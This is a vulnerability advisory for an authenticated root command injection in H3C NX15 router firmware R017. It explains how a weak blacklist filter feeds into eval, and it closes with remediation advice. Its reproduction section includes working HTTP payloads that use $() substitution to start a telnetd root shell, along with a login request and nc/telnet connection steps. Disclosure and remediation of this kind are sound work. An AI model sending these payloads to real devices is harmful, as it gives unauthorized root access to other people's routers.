




# H3C NX15 R017 `esps.apcm.version.delete` Authenticated Root Command Injection

## Summary

H3C NX15 Router firmware NX15V100R017 contains an authenticated command injection vulnerability in the `/api/esps` RPC object `esps.apcm.version`, method `delete`. The version string in the `list[]` parameter is filtered incompletely and then passed to `eval`, allowing arbitrary command execution as root.

## Vendor and Product

- Vendor: H3C
- Product: NX15 Router
- Affected firmware: NX15V100R017 / R017
- Component: `/api/esps` backend RPC
- Vulnerable object: `esps.apcm.version`
- Vulnerable method: `delete`
- Vulnerable parameter: `list[]` version string

## Vulnerability Type

- OS command injection
- Suggested CWE: CWE-78
- Attack vector: Remote
- Authentication required: Yes
- Privileges required: Administrator web session
- User interaction required: No

## Impact

An authenticated attacker can execute arbitrary commands as root. Runtime testing confirmed that a crafted version string can start a root shell and execute commands with UID 0.

## Technical Details

The `delete` branch performs a blacklist check similar to:

```sh
echo "${version}" | grep "[\`\\\"\'\;,]" >/dev/null
```

This filter blocks several characters, including backticks, quotes, semicolons, and commas. However, it does not block shell command substitution characters such as `$`, `(`, and `)`, nor does it block control operators such as `&&`.

The filtered value then reaches:

```sh
eval version"${idx}"="${version}"
```

A payload using `$()` command substitution and `${IFS}` in place of spaces can pass the blacklist and execute during the `eval` assignment.

The request path is the standard authenticated `/api/esps` forwarding chain:

```text
POST /api/esps
  -> authenticated /www/api /esps handler
  -> lua /usr/lib/lua/protol_cvt.lua magic_link '<request-body>'
  -> /usr/lib/lua/magic_link/magic_link.lua maps object/method/param directly to ubus
  -> esps.apcm.version delete
```

The blacklist is therefore the real boundary before root shell execution, and it is insufficient. It blocks:

- backticks
- double quotes
- single quotes
- semicolons
- commas

but it does not block:

- `$`
- `(`
- `)`
- `${IFS}`
- `&&`

So command substitution remains exploitable.

## Firmware Paths for Audit

The following paths are firmware-internal paths relative to the extracted firmware root filesystem:

- `/www/api`: web API binary that accepts authenticated `/api/esps` requests and forwards them to ubus objects.
- `/usr/lib/lua/protol_cvt.lua`: Lua protocol bridge that decodes the JSON request and issues the ubus call.
- `/usr/lib/lua/magic_link/magic_link.lua`: direct `object/method/param` to `path/func/args` mapping for `/api/esps`.
- `/usr/libexec/rpcd/esps.apcm.version`: vulnerable backend script; the `delete` branch filters the version string incompletely and later reaches `eval`.

## Reproduction

Run the included PoC with valid administrator credentials:

```bash
python3 poc/postauth_esps_apcm_version_delete_rce.py \
  --base http://192.168.8.1 \
  --username admin \
  --password '<admin-password>' \
  --port 2323 \
  --cleanup
```

The PoC:

1. Authenticates to the web interface.
2. Calls `/api/esps` with object `esps.apcm.version` and method `delete`.
3. Sends a crafted `list[]` version string.
4. Starts a temporary shell service.
5. Connects to the shell and verifies root execution.

Expected result:

```text
uid=0(root)
```

Manual request sequence:

1. Authenticate through `POST /api/login/auth` and capture the `session`.
2. Send:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
AUTHENTICATION: <session>

[{"id":1,"object":"esps.apcm.version","method":"delete","param":{"list":["$(echo${IFS}APCMVER_RCE_OK>/tmp/apcmver_rce_marker&&/usr/sbin/telnetd${IFS}-p${IFS}2323${IFS}-l${IFS}/bin/sh)"]}}]
```

3. Connect to the temporary listener and run `id`.

BurpSuite step-by-step reproduction:

1. Authenticate in Burp Repeater:

```http
POST /api/login/auth HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Connection: close

{"username":"admin","password":"admin123"}
```

2. Extract `data.session` and send:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"esps.apcm.version","method":"delete","param":{"list":["$(echo${IFS}APCMVER_RCE_OK_2323>/tmp/apcmver_rce_marker&&/usr/sbin/telnetd${IFS}-p${IFS}2323${IFS}-l${IFS}/bin/sh)"]}}]
```

3. Wait briefly and connect:

```bash
telnet 192.168.8.1 2323
```

or:

```bash
nc 192.168.8.1 2323
```

4. Run:

```sh
id
uname -a
cat /tmp/apcmver_rce_marker
```

5. Optional readback request:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"esps.apcm.version","method":"getlist","param":{}}]
```

## Evidence

- `/www/api` and the Lua `magic_link` layer forward authenticated `/api/esps` requests directly into ubus object `esps.apcm.version`.
- `/usr/libexec/rpcd/esps.apcm.version` applies only a narrow blacklist before copying each list entry through `eval`.
- The blacklist omits `$()`, `${IFS}`, and `&&`, which are enough to execute arbitrary commands.
- Runtime verification confirmed command execution through a crafted version string, and the spawned shell runs with root privileges.

## Attachments

- Report: `report/postauth_esps_apcm_version_delete_rce_report.md`
- PoC: `poc/postauth_esps_apcm_version_delete_rce.py`

## Remediation

- Remove `eval` from the APCM version backend script.
- Replace blacklist validation with a strict version-format allowlist.
- Reject `$`, parentheses, braces, shell operators, and other metacharacters where they are not valid version characters.
- Restrict `/api/esps` RPC exposure to required safe objects and methods.
